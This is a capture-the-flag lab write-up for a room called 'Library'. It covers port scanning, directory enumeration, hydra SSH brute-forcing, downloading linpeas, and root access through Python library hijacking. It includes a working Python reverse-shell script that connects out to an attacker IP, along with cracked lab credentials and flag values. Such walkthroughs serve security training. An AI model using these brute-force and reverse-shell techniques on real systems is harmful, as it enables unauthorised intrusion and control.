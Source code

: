 # Library - Easy

```shell
nmap -T4 -p- -A -v 10.10.46.49

feroxbuster -u http://10.10.46.49 -w /usr/share/wordlists/dirb/common.txt -x php,html,bak,js,txt,json,docx,pdf,zip --extract-links --scan-limit 2 --filter-status 401,403,404,405,500 --silent

hydra -l meliodas -P /usr/share/wordlists/rockyou.txt 10.10.46.49 ssh -t 30
#brute force ssh

ssh meliodas@10.10.46.49
#use password found

#get user flag

cd /tmp

#in attacker machine
python3 -m http.server

#in victim ssh
wget http://10.14.31.212:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

sudo -l
#we can run bak.py with Python as root

cd

cat bak.py

echo $PATH

#use python library hijacking method
#hijack the zipfile library
vi zipfile.py

cat zipfile.py

#setup listener in attacker machine
nc -nvlp 4445

#run the sudo command
sudo /usr/bin/python /home/meliodas/bak.py

#we get root shell at listener
```

```python
#!/usr/bin/env python
import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.14.31.212",4445))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

* Open ports & services:

  * 22 - ssh - OpenSSH 7.2p2 (Ubuntu)
  * 80 - http - Apache httpd 2.4.18

* We can begin enumerating the webpage directories while exploring the webpage content.

* The webpage content seems to be just ipsum lorem text, but there are some directories and pages enumerated:

  * /logo.png
  * /images
  * /robots.txt

* /robots.txt has User-agent written as 'rockyou'; the /images and logo.png do not contain anything significant.

* As we have only one other service (ssh) accessible, and the clue 'rockyou' is given - maybe it is hinting towards ssh brute-forcing.

* From the webpage, we have the name of the author as 'meliodas', could be the user.

* Using ```hydra```, we can attempt to brute-force SSH using username 'meliodas' and wordlist rockyou.txt - and it works.

* We get the creds meliodas:iloveyou1 with the help of hydra, and now we can log into SSH.

* After getting user flag, we can begin enumeration - we can use linpeas.

* Using ```sudo -l```, we can run the following command as sudo:

  ```(ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py```

* Now, inspecting bak.py, we cannot modify the file, however we can note that the PATH variable contains our home directory.

* This means we can use Python library hijacking for privilege escalation.

* The bak.py script uses two libraries - os and zipfile - we can hijack any library by creating a malicious Python file of the same name.

* By inserting reverse shell code in Python (for Linux) in ```zipfile.py```, we can run the sudo command; and we will get reverse shell as root at our listener.

```markdown
1. user.txt - 6d488cbb3f111d135722c33cb635f4ec

2. root.txt - e8c8c6c256c35515d1d344ee0488c617
```
